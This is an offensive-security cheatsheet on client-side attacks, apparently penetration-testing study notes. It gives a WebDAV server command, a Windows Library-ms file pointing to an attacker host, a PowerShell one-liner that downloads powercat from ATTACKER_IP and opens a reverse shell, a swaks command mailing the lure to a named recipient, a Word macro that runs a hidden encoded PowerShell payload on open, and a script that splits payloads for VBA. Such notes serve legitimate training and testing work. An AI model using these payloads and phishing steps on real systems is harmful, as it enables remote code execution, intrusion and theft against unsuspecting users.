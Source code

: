 # Client-Side Attacks Cheatsheet

### Phishing Attack

**Open a WebDav**
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```

**Create a config.Library-ms file**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.XXX</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
**Create a link**

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER_IP:8000/powercat.ps1'); powercat -c ATTACKER_IP -p ATTACKER_PORT -e powershell"
```

**Swaks to automatically send smtp mail**

Needs an autheticated user

```bash
sudo swaks -t daniela@beyond.com --from john@beyond.com --attach @config.Library-ms --server SMTP_IP --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

### Word Macro

Payload Sample

```powershell
IEX(New-Object
System.Net.WebClient).DownloadString('http://ATTACKER_IP/powercat.ps1');powercat -c
ATTACKER_IP -p ATTACKER_PORT -e powershell
```

Macro Template

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    # Put Payload
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Python Script to fit VBA length

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." # Here the payload
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
```